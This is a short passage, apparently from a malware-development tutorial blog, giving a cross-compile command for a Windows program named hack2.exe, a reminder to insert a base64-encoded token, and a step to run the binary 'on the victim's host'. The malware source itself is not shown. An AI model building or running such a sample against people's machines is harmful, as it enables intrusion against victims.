 ```cpp
}
```

Don't forget to replace with your own `base64`-encoded token.    

### demo 2

Compile second example:     

```bash
x86_64-w64-mingw32-g++ hack2.c -o hack2.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lwinhttp
```

![malware](/assets/images/171/2025-08-11_20-13.png){:class="img-responsive"}    

Then, run on the victim's host:     

```powershell
.\hack2.exe
```
